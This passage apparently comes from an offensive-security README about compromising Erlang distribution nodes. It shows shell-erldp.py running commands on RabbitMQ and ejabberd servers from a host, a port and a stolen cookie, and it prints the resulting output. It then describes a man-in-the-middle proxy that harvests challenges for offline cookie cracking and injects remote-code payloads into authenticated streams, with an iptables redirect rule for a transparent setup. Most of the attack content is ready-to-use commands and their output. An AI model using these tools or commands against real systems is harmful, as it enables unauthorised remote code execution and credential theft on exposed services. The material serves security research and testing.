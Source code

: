 ### Gaining remote code execution

Now is reward time !

[shell-erldp](shell-erldp.py) makes victim Erlang server execute shell command given in argument. It requires host and port, plus cookie value.

Coming back to our target setup:

```
$ ./shell-erldp.py 192.168.1.36 25672 UDPQJJNGQLLDNASUKRRN id
uid=121(rabbitmq) gid=135(rabbitmq) groups=135(rabbitmq)
```

Doing the same for `ejabberd` works the very same, as we use a function built in Erlang, not in upper daemon developped in Erlang:

```
$ ./shell-erldp.py 192.168.1.36 45986 YBBQTPLCGRNMJOJJENNL id
uid=110(ejabberd) gid=116(ejabberd) groups=116(ejabberd)
```

Gaining an interactive reverse shell is now a step ahead.

### Exploiting man-in-the-middle

A man-in-the-middle attacker may wait for the legit client to authenticate, and then inject malicious commands into the external encoded Erlang stream, which is neither ciphered, neither authenticated. This part is now implemented, as a Python asyncore Erlang distribution [proxy](erldp-proxy.py). It currently identifies and outputs challenges/responses, leaving the cookie to be cracked offline. It can also be used to inject an RCE Erlang payload inside an authenticated channel.

#### Non-transparent proxy

It requires the client to connect to the attacker proxy. The proxy must then know how to connect to legitimate server. The associated command line option is:

```
$ ./erldp-proxy.py --target victim:9100 ...
```

#### Transparent proxy

It requires the use of a redirect rule, such as:

```
# iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 9100 -j REDIRECT --to-port 19100
```

In this case, the initial destination is retrieved from the socket through the use of `SO\_ORIG\_DSTADDR`. The legit connection to the victim server is then performed. This is the default mode when `--target` is not used:

```
$ ./erldp-proxy.py ...
```

#### Collect challenges and responses
